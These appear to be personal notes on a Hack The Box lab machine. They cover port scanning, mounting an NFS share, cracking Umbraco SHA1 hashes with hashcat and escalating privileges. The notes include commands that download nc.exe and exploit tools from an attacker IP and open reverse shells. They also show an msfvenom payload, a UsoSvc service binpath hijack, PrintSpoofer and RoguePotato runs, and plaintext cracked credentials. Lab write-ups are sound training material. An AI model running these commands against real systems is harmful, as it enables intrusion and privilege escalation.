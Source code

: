 # Enumeration 

## open ports

```

21/tcp   open  ftp           Microsoft ftpd                                                                                            
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                 
| ftp-syst:                                                                                                                            
|_  SYST: Windows_NT                                                                                                                   
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                   
| http-methods:                                                                                                                        
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                           
|_http-title: Home - Acme Widgets                                                                                                      
111/tcp  open  rpcbind       2-4 (RPC #100000)

135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### Port 2049

was able to mount NFS 
![[Pasted image 20230126001324.png]]


![[Pasted image 20230126010234.png]]

`strings Umbraco.sdf`
![[Pasted image 20230126011126.png]]
found emails with SHA1 passwords
` .\hashcat.exe -m 100 .\hash.txt .\rockyou.txt -O`
![[Pasted image 20230126011452.png]]
admin@htb.local:baconandcheese

### Port 80

![[Pasted image 20230126001110.png]]

![[Pasted image 20230126011752.png]]
# Foothold 
we are in as umbraco admin
![[Pasted image 20230126013608.png]]


Umbraco version 7.12.4

![[Pasted image 20230126040155.png]]

changing values to the right ones
and copying nishang Invoke-PowerShellTCP.ps1 script renaming it to shell.ps1

![[Pasted image 20230126040303.png]]
add this to the last line inside nishang shell
![[Pasted image 20230126040402.png]]

# Privesc 

![[Pasted image 20230126040415.png]]
![[Pasted image 20230126040436.png]]
it's Windows server 2019 so juicy potato won't work we can try rouge potato or print spoofer

```
cd C:\Windows\System32\spool\drivers\color
IWR -Uri http://10.10.16.2/nc.exe -OutFile nc.exe
IWR -Uri http://10.10.16.2/sp.exe -OutFile sp.exe
.\sp.exe -c "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.2 443 -e cmd"
```
![[Pasted image 20230126042015.png]]

![[Pasted image 20230126042022.png]]


# Alternative root
running winpeas 
![[Pasted image 20230126043440.png]]

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=8002 -f exe > shell-x64.exe
IWR -Uri http://10.10.16.2/shell-x64.exe -outfile shell-x64.exe
cmd.exe /c 'sc config UsoSvc binpath= "C:\Windows\System32\spool\drivers\color\shell-x64.exe"'
cmd.exe /c "sc stop UsoSvc"
cmd.exe /c "sc start UsoSvc"
```
![[Pasted image 20230126045508.png]]
![[Pasted image 20230126045530.png]]

# RougePotato


```
IWR -Uri http://10.10.16.2/rp.exe -outfile rp.exe
cmd /c 'whoami & C:\Windows\System32\spool\drivers\color\rp.exe -r 10.10.16.2 -e "C:\Windows\System32
\spool\drivers\color\shell-x64.exe" -l 9999 
```
![[Pasted image 20230126050559.png]]

![[Pasted image 20230126050606.png]]
# Loot

Umbraco admin creds:
	username: `admin@htb.local`
	password: `baconandcheese`


---
Tags:
Resources: 